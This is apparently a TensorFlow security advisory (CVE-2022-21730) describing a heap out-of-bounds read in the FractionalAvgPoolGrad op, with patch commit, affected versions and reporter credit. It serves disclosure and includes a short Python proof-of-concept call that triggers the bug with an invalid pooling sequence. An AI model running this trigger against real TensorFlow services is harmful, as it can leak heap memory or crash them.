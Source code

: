 ## TFSA-2022-005: Heap OOB access in `FractionalAvgPoolGrad`

### CVE Number
CVE-2022-21730

### Impact
The [implementation of `FractionalAvgPoolGrad`](https://github.com/tensorflow/tensorflow/blob/5100e359aef5c8021f2e71c7b986420b85ce7b3d/tensorflow/core/kernels/fractional_avg_pool_op.cc#L209-L360) does not consider cases where the input tensors are invalid allowing an attacker to read from outside of bounds of heap:

```python
import tensorflow as tf

@tf.function
def test():
  y = tf.raw_ops.FractionalAvgPoolGrad(
    orig_input_tensor_shape=[2,2,2,2],
    out_backprop=[[[[1,2], [3, 4], [5, 6]], [[7, 8], [9,10], [11,12]]]],
    row_pooling_sequence=[-10,1,2,3],
    col_pooling_sequence=[1,2,3,4],
    overlapping=True)
  return y

test()
```

### Patches
We have patched the issue in GitHub commit [002408c3696b173863228223d535f9de72a101a9](https://github.com/tensorflow/tensorflow/commit/002408c3696b173863228223d535f9de72a101a9).

The fix will be included in TensorFlow 2.8.0. We will also cherrypick this commit on TensorFlow 2.7.1, TensorFlow 2.6.3, and TensorFlow 2.5.3, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Yu Tian of Qihoo 360 AIVul Team.
